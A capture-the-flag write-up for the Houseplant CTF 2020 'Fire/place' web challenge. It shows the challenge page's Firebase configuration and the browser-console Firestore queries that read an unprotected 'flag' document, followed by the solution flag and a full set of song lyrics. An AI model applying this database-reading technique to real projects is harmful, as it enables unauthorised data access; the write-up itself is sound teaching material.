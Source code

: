 # Houseplant CTF 2020 – Fire/place

* **Category:** web
* **Points:** points

## Challenge

> You see, I built a nice fire/place for us to all huddle around. It's completely decentralized, and we can all share stuff in it for fun!!
> 
> Dev: Jess
>
> Hint! I wonder... what's inside the HTML page?
>
> fire-place[0].html e4a4c2321d18246d027184605ca52866

## Solution

The challenge gives you an [HTML file](fire-place[0].html) which connects to a Firestore environment.

```
<body>
    <div class="column" style="float: left; width:1000;">
        <canvas id="myCanvas" style="width: 1000px; height: 650px;"></canvas>
    </div>
    <div class="column" style="float: right; width: 300;">
        <br>
        <h1 style = "font-family:georgia,garamond,serif;font-size:20px;">Welcome to fire/place!</h1>
        <br>
        <script src="https://rawgit.com/EastDesire/jscolor/master/jscolor.js"></script>
        <input class="jscolor" id=colour value="f0f0f0">
        <br><br>
        X:<input class="text" id=xpos value=0>
        <br>
        Y:<input class="text" id=ypos value=0>
        <br><br>
        X offset:  <input class="text" id=xoff value=-1>
        <br>Y offset:  <input class="text" id=yoff value=-8>
    </div>
    <script src="https://www.gstatic.com/firebasejs/7.8.2/firebase-app.js"></script>
    <script src="https://www.gstatic.com/firebasejs/7.8.2/firebase-firestore.js"></script>
    <script src="https://www.gstatic.com/firebasejs/7.8.2/firebase-analytics.js"></script>

    <script>
    var firebaseConfig = {
        apiKey: "AIzaSyABDa1gqWZhFy-3OQ664XplH65TNVXfm6E",
        authDomain: "jade-adventure-274923.firebaseapp.com",
        projectId: "jade-adventure-274923",
        storageBucket: "jade-adventure-274923.appspot.com",
        messagingSenderId: "891770626123",
        appId: "1:891770626123:web:70414772b58fceaa88edce",
        measurementId: "G-GZPE7S1WJ0"
    };
    firebase.initializeApp(firebaseConfig);
    firebase.analytics();
    const db = firebase.firestore()
    </script>
</body>

<script>
    var PIXELARRAY=new Array()

    function hexToRgb(hex) {
        var result = /^#?([a-f\d]{2})([a-f\d]{2})([a-f\d]{2})$/i.exec(hex);
        return result ? {
            r: parseInt(result[1], 16),
            g: parseInt(result[2], 16),
            b: parseInt(result[3], 16)
        } : null;
    }

    function sendTHEPIXEL() {
        var loc = (parseInt(document.getElementById("ypos").value*100))+parseInt(document.getElementById("xpos").value)
        converted=hexToRgb(document.getElementById("colour").value)
        finstring="rgb("+converted.r+","+converted.g+","+converted.b+")"
        PIXELARRAY[loc]=finstring
        var docdata= {
            dat:PIXELARRAY
        };
        db.collection("board").doc("data").update(docdata)
    }

    function findScreenCoords(mouseEvent)  {
        var xpos;
        var ypos;
        if (mouseEvent) {
            //FireFox
            xpos = mouseEvent.screenX;
            ypos = mouseEvent.screenY;
        } else {
            //IE
            xpos = window.event.screenX;
            ypos = window.event.screenY;
        }
        if (Math.floor(xpos/10) >= 101) and ((Math.floor(ypos/10)-7) <= 66); {
            document.getElementById("xpos").value=(Math.floor(xpos/10)+parseInt(document.getElementById("xoff").value))
            document.getElementById("ypos").value=(Math.floor(ypos/10)+parseInt(document.getElementById("yoff").value))
            sendTHEPIXEL()
        }
    }

    function drawCanvas(pixelData){
        var c = document.getElementById("myCanvas");
        c.width = 1000;
        c.height = 650;
        var ctx = c.getContext("2d");
        
        x=0
        y=0
        for (var i=0; i<6500; i++) {
            ctx.fillStyle = pixelData[i];
            ctx.fillRect(x*10, y*10, 10, 10);
            x++
            if (x==100) {
                x=0
                y++
            }
        }        
    }
</script>
<script>
    document.addEventListener("click", findScreenCoords);
    db.collection("board").doc("data")
    .onSnapshot(function(doc) {
        drawCanvas(doc.data().dat);
        PIXELARRAY=doc.data().dat;
    });
</script>
```

The application allows you to color pixels on a canvas shared with other users, storing data into Firestore repository.

To interact with Firebase installation you can use the browser console.

Analyzing the client source code and reading the [official documentation](https://firebase.google.com/docs/firestore/query-data/get-data), you can discover that data of a document can be retrieved with the following snippet.

```javascript
db.collection("board").doc("data").get().then(function(doc) {
    if (doc.exists) {
        console.log("Document data:", doc.data());
    } else {
        console.log("No such document!");
    }
}).catch(function(error) {
    console.log("Error getting document:", error);
});
```

The retrieved data will be a structure with all the RGB values for pixels.

```javascript
Document data: Object { dat: (3929) […] }
```

You can try a document called `flag`.

```javascript
db.collection("board").doc("flag").get().then(function(doc) {
    if (doc.exists) {
        console.log("Document data:", doc.data());
    } else {
        console.log("No such document!");
    }
}).catch(function(error) {
    console.log("Error getting document:", error);
});
```

And you will get [the lyrics of a famous song](https://www.youtube.com/watch?v=dQw4w9WgXcQ) and the flag.

```javascript
Document data: 
Object { "Never gonna give you up": "We're no strangers to love You know the rules and so do I A full commitment's what I'm thinking of You wouldn't get this from any other guy  I just wanna tell you how I'm feeling Gotta make you understand  Never gonna give you up Never gonna let you down Never gonna run around and desert you Never gonna make you cry Never gonna say goodbye Never gonna tell a lie and hurt you  We've known each other for so long Your heart's been aching but you're too shy to say it Inside we both know what's been going on We know the game and we're gonna play it  And if you ask me how I'm feeling Don't tell me you're too blind to see  Never gonna give you up Never gonna let you down Never gonna run around and desert you Never gonna make you cry Never gonna say goodbye Never gonna tell a lie and hurt you Never gonna give you up Never gonna let you down Never gonna run around and desert you Never gonna make you cry Never gonna say goodbye Never gonna tell a lie and hurt you ​ (Ooh give you up) (Ooh give you up) (Ooh) Never gonna give, never gonna give (give you up) (Ooh) Never gonna give, never gonna give (give you up)  We've known each other for so long Your heart's been aching but you're too shy to say it Inside we both know what's been going on We know the game and we're gonna play it  I just wanna tell you how I'm feeling Gotta make you understand  Never gonna give you up Never gonna let you down Never gonna run around and desert you Never gonna make you cry Never gonna say goodbye Never gonna tell a lie and hurt you Never gonna give you up Never gonna let you down Never gonna run around and desert you Never gonna make you cry Never gonna say goodbye Never gonna tell a lie and hurt you Never gonna give you up Never gonna let you down Never gonna run around and desert you Never gonna make you cry Never gonna say goodbye Never gonna tell a lie and hurt you", "flag!!!!!!!!!!!!!": "rtcp{d0n't_g1ve_us3rs_db_a((3ss}" }
```

So the flag is the following.

```
rtcp{d0n't_g1ve_us3rs_db_a((3ss}
```